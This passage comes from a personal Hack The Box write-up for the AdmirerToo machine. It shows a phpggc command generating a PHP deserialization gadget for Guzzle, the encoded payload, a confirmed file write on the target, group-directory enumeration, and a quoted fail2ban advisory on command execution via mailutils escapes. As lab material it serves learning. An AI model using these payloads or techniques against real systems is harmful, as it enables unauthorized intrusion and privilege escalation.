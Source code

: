 Generated the POP gadget like the PoC does:

```bash
┌──(kali㉿kali)-[~/…/HTB/B2R/AdmirerToo/exploit]
└─$ echo 'this is a test' > /tmp/test.txt

┌──(kali㉿kali)-[~/…/HTB/B2R/AdmirerToo/exploit]
└─$ phpggc -u --fast-destruct Guzzle/FW1 /dev/shm/test.txt /tmp/test.txt
a%3A2%3A%7Bi%3A7%3BO%3A31%3A%22GuzzleHttp%5CCookie%5CFileCookieJar%22%3A4%3A%7Bs%3A36%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00cookies%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A27%3A%22GuzzleHttp%5CCookie%5CSetCookie%22%3A1%3A%7Bs%3A33%3A%22%00GuzzleHttp%5CCookie%5CSetCookie%00data%22%3Ba%3A3%3A%7Bs%3A7%3A%22Expires%22%3Bi%3A1%3Bs%3A7%3A%22Discard%22%3Bb%3A0%3Bs%3A5%3A%22Value%22%3Bs%3A15%3A%22this+is+a+test%0A%22%3B%7D%7D%7Ds%3A39%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00strictMode%22%3BN%3Bs%3A41%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00filename%22%3Bs%3A17%3A%22%2Fdev%2Fshm%2Ftest.txt%22%3Bs%3A52%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00storeSessionCookies%22%3Bb%3A1%3B%7Di%3A7%3Bi%3A7%3B%7D
```

![AdmirerToo%20240a5f42ba804c368714cbfe2f9e8182](../../zzz_res/attachments/AdmirerToo%20240a5f42ba804c368714cbfe2f9e8182%2014.png)

```bash
jennifer@admirertoo:/opt/opencats$ ls -al /dev/shm/test.txt 
-rw-r--r-- 1 devel devel 58 Apr 24 20:19 /dev/shm/test.txt
jennifer@admirertoo:/opt/opencats$ cat /dev/shm/test.txt 
[{"Expires":1,"Discard":false,"Value":"this is a test\n"}]
```

Enumerated devel group writable directories:

```bash
jennifer@admirertoo:~/test$ find / -group devel 2>/dev/null
/opt/opencats/INSTALL_BLOCK
/usr/local/src
/usr/local/etc
jennifer@admirertoo:/tmp$ ls -al /usr/local/src/                                                                                                                                                                                            
total 8                                                                                                                                                                                                                                     
drwxrwxr-x  2 root devel 4096 Jul  7  2021 .                                                                                                                                                                                                
drwxr-xr-x 10 root root  4096 Jul  7  2021 ..
```

## RCE vulnerability in mailing action using mailutils (mail-whois)

[Build software better, together](https://github.com/fail2ban/fail2ban/security/advisories/GHSA-m985-3f3v-cwmm)

>[!quote]
> Command `mail` from mailutils package used in mail actions like `mail-whois` can execute command if unescaped sequences (`\n~`) are available in "foreign" input (for instance in whois output).
[...]
*The '~!' escape executes specified command and returns you to mail compose mode without altering your message. When used without arguments, it starts your login shell. The '~|' escape pipes the message composed so far through the given shell command and replaces the message with the output the command produced. If the command produced no output, mail assumes that something went wrong and retains the old contents of your message.*
[...]
**Which menas that as long as attacker can control stdin that goes to mail (from mailutils package) command - code execution could be achieved. 
Then - the interesting configuration file from fail2ban perspective is `/etc/fail2ban/action.d/mail-whois.conf` fragment:
[...]